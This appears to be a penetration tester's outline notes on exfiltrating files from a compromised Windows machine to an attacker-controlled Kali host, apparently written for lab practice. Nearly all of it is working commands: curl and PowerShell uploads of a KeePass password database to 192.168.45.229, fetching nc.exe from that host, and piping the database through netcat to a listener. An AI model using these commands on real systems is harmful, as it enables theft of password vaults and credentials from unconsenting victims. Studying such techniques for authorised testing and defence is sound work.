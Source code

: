 public:: true

- Python upload web-server
	- On Kali
	  ```bash
	  python3 -m uploadserver 8080
	  ```
	- On Windows
		- #+BEGIN_IMPORTANT
		  You need the real `curl`. On PowerShell `curl` is an alias for `Invoke-WebRequest` and because of that it is not suitable for this use-case.
		  #+END_IMPORTANT
			- Example of using `curl` as an alias for `Invoke-WebRequest`
			  ```powershell
			  PS C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" 192.168.45.229:8080/upload
			  Invoke-WebRequest : A parameter cannot be found that matches parameter name 'X'.
			  ```
		- If the real `curl` is installed then switch to a `cmd` prompt.
		  ```cmd
		  C:\users\bobby> curl -X POST -F "files=@C:\Users\bobby\database.kdbx" http://192.168.45.229:8080/upload
		  ```
		- If `curl` is not an option, then you can use [`PSUpload.ps1`](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1) from a Powershell prompt.
		  ```powershell
		  PS C:\users\bobby> Import-Module .\PSUpload.ps1
		  PS C:\users\bobby> Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  Invoke-FileUpload -File C:\Users\bobby\Database.kdbx -Uri http://192.168.45.229:8080/upload
		  
		  [+] File Uploaded:  C:\Users\bobby\Database.kdbx
		  [+] FileHash:  6DF711DF31EAC725FA31235C2437E678
		  
		  ```
- Netcat
	- On Kali
	  ```bash
	  nc -lnvp 443 > bobby.kdbx
	  ```
	- On Windows
		- Upload netcat
		  ```powershell
		  curl 192.168.45.229/nc.exe -o nc.exe
		  ```
		- Exfiltrate data via netcat
		  ```powershell
		  cat C:\users\bobby\Database.kdbx | .\nc.exe 192.168.45.229 443
		  ```